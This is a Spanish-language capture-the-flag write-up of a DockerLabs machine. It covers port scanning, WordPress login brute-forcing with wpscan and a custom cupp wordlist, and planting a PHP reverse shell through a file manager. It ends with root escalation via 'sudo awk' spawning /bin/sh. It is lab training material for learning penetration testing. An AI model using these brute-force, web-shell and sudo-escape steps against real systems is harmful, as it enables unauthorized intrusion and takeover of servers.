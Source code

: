 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8306a2d4-ebce-443e-a0cb-d8e796bc49b0)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp(SSH):** OpenSSH 9.6p1 (Ubuntu)
2. **80/tcp(HTTP):** Apache httpd 2.4.58

### Puerto 80
Al identificar que el puerto 8080 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador con el puerto y es una pagina de una universidad de ciberseguridad.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5b26eb15-db47-4c5c-bd2d-2adacec8d262)

# Fase 2- Exploración

#### FeroxBuster
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e42cccbd-681d-41de-b250-a71f74d9d9a9)
Con feroxbuster encontramos un montón de cosas, pero encontró algunas interesantes...

Encontró una directorio /wordpress
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/70c540d1-86f0-4242-9cf8-1de1bdca06a6)

Y también encontró un /wordpress/wp-admin pero lo tenemos que agregar al /etc/hosts.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/bb91ac9d-d761-4db6-8e77-e3a1b0d0eaa9)

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a9130d69-fad8-4e17-8c18-304097747739)
Despues de agregarlo ya funciona.

#### Luis
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7ad991c1-2f99-4a95-bd39-85002f24452d)

Si vemos el apartado de profesores, el profesor `Luis ;)` tiene arriba un texto que dice (admin wordpress).


# Fase 3- Exploración

#### wordpress
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b713ab72-c8e8-46be-b763-d196288eb6e3)

Al poner el nombre de usuario `Luis` nos dice que no esta registrado en wordpress.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4f307386-d3f7-46a8-b682-dca27c009c4d)

Probamos la matricula del profesor `Luis` y tampoco esta registrado.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/aa730016-31ea-48dc-8ce9-7a4a973cf894)

Si introducimos `luisillo` del correo electrónico funciona.

#### Explotar Wordpress

Utilizamos el comando:
```python
wpscan --url http://escolares.dl/wordpress/ -U luisillo --passwords /usr/share/wordlists/rockyou.txt
```
Para realizar fuerza bruta al wordpress, con el usuario `luisillo` y el `rockyou` como diccionario.

```python
[i] No Valid Passwords Found.
```
No encontró ninguna contraseña. Tocara realizar un diccionario propio.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9f8a5e9c-b6f7-4012-85d7-24098c35a7fd)

Utilizamos la herramienta `cupp` para crear un diccionario personalizado.

```python
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - luisillo / Luis1981                                                                                                                                                                             
Trying luisillo / Luis1098181
```
Nos encontró la contraseña!

#### Wp-File-Manager
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f09a5289-2ade-4c97-88b9-87ddeba7ea0e)

Dentro de wordpress encontramos un File Manager.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ae7f2758-4e12-4402-a8dd-bf10608425ff)

El tema `twentytwentyfour` nos permite ver y ejecutar archivos.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9f8aa99b-9133-4a0f-ba1d-a83e057b6c8e)

Creamos un archivo .txt de texto plano.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/44864bfb-a261-4e13-8c9b-1cdfae13405e)

Pegamos el codigo de `https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php` y le cambiamos la ip y el puerto.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e920fc5b-714a-4887-82d3-ebc77ee083d0)

Le damos a `SAVE AS` y lo guardamos con cualquier nombre y extensión `.php`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0ce9e06b-d5a2-4509-999b-9d8865ba4576)

Y ahi lo tenemos.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/59748050-eefb-4b82-9bbf-7a7db5fea34d)
Nos ponemos en modo escucha y ejecutamos el archivo y nos llega la reverse shell.

# Fase 4- Privilegios

#### www-data
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c94f7177-1c4f-49e6-9b87-1692b6963ab6)

Despues de realizar el tratamiento de la TTY y no encontrar nada en los binarios reviso el passwd y veo que existe el usuario `luisillo`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/44cb1e15-f263-4924-8830-01d706a54a11)

En el directorio `/home` existe un archivo llamado `secret.txt`
```python
www-data@16f9cdd90725:/home$ ls  
luisillo  secret.txt  ubuntu
www-data@16f9cdd90725:/home$ cat secret.txt 
luisillopasswordsecret
www-data@16f9cdd90725:/home$ su luisillo
Password: 
luisillo@16f9cdd90725:/home$ 
```
Y somos el usuario `luisillo`!.

#### Luisillo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4ac9b5b1-4a90-4716-b96e-0797f48f6651)

Como el usuario `luisillo` podemos ejecutar el binario `awk` como usuario root.
```
luisillo@16f9cdd90725:/home$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami
root
# 
```
Buscamos como se eleva privilegios en gtfobins con ese binario y escalamos!.
